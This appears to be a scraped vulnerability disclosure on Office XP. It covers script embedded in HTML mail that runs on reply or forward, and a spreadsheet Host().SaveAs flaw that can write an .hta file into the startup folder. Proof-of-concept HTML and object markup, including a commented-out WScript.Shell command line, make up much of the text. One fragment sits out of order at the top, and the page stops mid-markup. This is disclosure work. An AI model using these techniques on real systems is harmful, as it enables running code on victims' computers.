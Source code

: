 <param name=DisplayTitleBar value=0>    <param name=DisplayToolbar value=-1>    <param name=DisplayVerticalScrollBar value=-1>    <param name=DisplayWorkbookTabs value=-1>    <param name=EnableEvents value=-1>    <param name=MaxHeight value="80%">    <param name=MaxWidth value="80%">    <param name=MoveAfterReturn value=-1>    <param name=MoveAfterReturnDirection value=-4121>    <param name=RightToLeft value=0>    <param name=ScreenUpdating value=-1>    <param name=EnableUndo value=0>   </object> <script> i=3; while (i--) confirm("Trustworthy?"); //x=new ActiveXObject("WScript.Shell"); //x.Run("C:\\WINNT\\SYSTEM32\\CMD.EXE /C DIR C:\\ /a /p /s"); </script> ------------------------------------------  Description: Actually there are at least two vulnerabilities in Office XP. 1. It is possible to embed active content (object + script) in HTML mail which is triggered if the user chooses reply or forward to the mail. This opens an exploit scenario for forcing the user to visit a page in the internet zone of IE at least. For another exploit scenario check (2) 2. There is a bug in ms spreadsheet compononent. Namely in its Host() function which may be exploited with the help of (1) or probably from any document opened with Office application. This buggy function allows creating files with arbitrary names and their content may be specified to some extent at which is sufficient to place an executable file (.hta) in user's startup directory which may lead to taking full control over user's computer. This probably may be called cross application scripting because one application uses object from another application.   Details: The following must be put in HTML email which should be opened with Outlook XP and the user should choose reply or forward.  1. -------------------------------------- <OBJECT id=WebBrowser1 height=150 width=300  classid=CLSID:8856F961-340A-11D0-A96B-00C04FD705A2> <PARAM NAME="ExtentX" VALUE="7938"> <PARAM NAME="ExtentY" VALUE="3969"> <PARAM NAME="ViewMode" VALUE="0"> <PARAM NAME="Offline" VALUE="0"> <PARAM NAME="Silent" VALUE="0"> <PARAM NAME="RegisterAsBrowser" VALUE="1"> <PARAM NAME="RegisterAsDropTarget" VALUE="1"> <PARAM NAME="AutoArrange" VALUE="0"> <PARAM NAME="NoClientEdge" VALUE="0"> <PARAM NAME="AlignLeft" VALUE="0"> <PARAM NAME="ViewID" VALUE="{0057D0E0-3573-11CF-AE69-08002B2E1262}"> <PARAM NAME="Location" VALUE="about:/dev/random&lt;script&gt;while (42) alert('HOHOHO\nTrying to sell trustworthy computing\nHOHOHO')&lt;/script&gt;"> <PARAM NAME="ReadyState" VALUE="4"> </OBJECT> -------------------------------------   2. The office spreadsheet component is something like mini excel. It may be embeded in web pages (seems not exploitable) and in office documents (seems exploitable). It supports the Host() function which returns the hosting object. So if you put in formula '=Host().SaveAs("name")' file with name shall be created.  [Note, lines may be wrapped] --------------------------------------- <h1> Hehe. Triyng to sell trustworthy computing. </h1> <object    classid="CLSID:0002E551-0000-0000-C000-000000000046" id=Spreadsheet1    v:shapes="\_x0000\_s1026" class=shape width=81 height=81    u1:shapes="\_x0000\_s1025">    <param name=DataType value=XMLURL>